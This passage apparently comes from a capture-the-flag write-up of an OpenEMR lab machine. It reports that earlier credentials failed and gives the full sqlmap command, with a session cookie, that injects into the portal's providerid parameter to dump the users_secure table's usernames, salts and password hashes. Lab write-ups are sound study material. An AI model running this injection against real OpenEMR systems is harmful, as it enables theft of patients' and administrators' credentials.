 ![Img](images/sql6.png)

However, the results weren't as expected... None of the credentials seemed valid and indeed they weren't working anywhere. I kept on searching and remembered seing a table named `users_secure`, so I took a look at it and found a hashed password belonging to `openemr_admin`.

The command I ran was: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid -D openemr -T users_secure -C id,username,salt,password --dump`.

*Users_secure table data*

![Img](images/sql7.png)
